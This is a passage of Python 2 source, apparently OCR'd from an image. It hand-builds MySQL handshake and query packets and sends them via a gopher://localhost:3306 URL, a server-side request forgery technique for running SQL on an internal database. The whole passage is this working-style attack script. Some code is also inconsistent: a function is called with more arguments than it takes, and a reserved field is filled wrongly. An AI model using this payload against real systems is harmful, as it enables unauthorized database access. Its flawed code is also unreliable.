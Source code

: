 ```python
		connects_atrs_data += struct.pack('B', len(value)) + value  # len(CLIENT_CONNECT_ATTRS_value) + CLIENT_CONNECT_ATTRS_value

	connect_attrs_data = struct.pack('B', len(connects_atrs_data)) + connects_atrs_data # len(CLIENT_CONNECT_ATTRS)	+ CLIENT_CONNECT_ATTRS

	auth_response_packet = [
		0xa3 + len(user) - 4, 0x00, 0x00,                           # payload_length           int<3>
		0x01,                                                       # sequence_id              int<1>
		0x85, 0xa6, 0x3f, 0x20,                                     # capability_flags         int<4> SELECT * FROM performance_schema.session_connect_attrs WHERE processlist_id = CONNECTION_ID();
		0x00, 0x00, 0x00, 0x01,                                     # max_packet_size          int<4> 2 ** 24 -1
		0x08,                                                       # character_set            int<1>
		] + list(xrange(23)) + [                                    # reserved                 string[23]
		] + list(bytearray(user)) + [                               # username                 string[NUL]
		0x00,                                                       # length of auth-response  int<1>
		0x00,                                                       # auth-response            string[n]
		] + list(bytearray('mysql_native_password')) + [            # auth plugin name         string[NUL]
		0x00                                                        # [NUL]
		] + list(bytearray(connect_attrs_data))                     # client_connect_attrs                           

	return ''.join(map(lambda x: '{:02x}'.format(x), list(auth_response_packet)))

def encode(data):
	packet = ''
	for i in range(len(data) / 2):
		packet += '%' + data[2*i:2*(i+1)]
	return unicode(packet)

def construct_query_packet(query):
	query = query.encode('hex')
	query_length = '{:x}'.format((len(query) / 2 ) + 1).rjust(2, '0')
	return encode(construct_handshake_response(db_user) + query_length + '00000003' + query + '0100000001') # COM_QUERY + len(query) + query


def send(packet):
	c = pycurl.Curl()

	c.setopt(c.URL, packet)
	c.setopt(c.TIMEOUT, 10)

	resp = c.perform_rs()
	c.close()

	return resp

print send('gopher://localhost:3306/_' + construct_query_packet('ssrf_user', 'SELECT SLEEP(1)'))
```
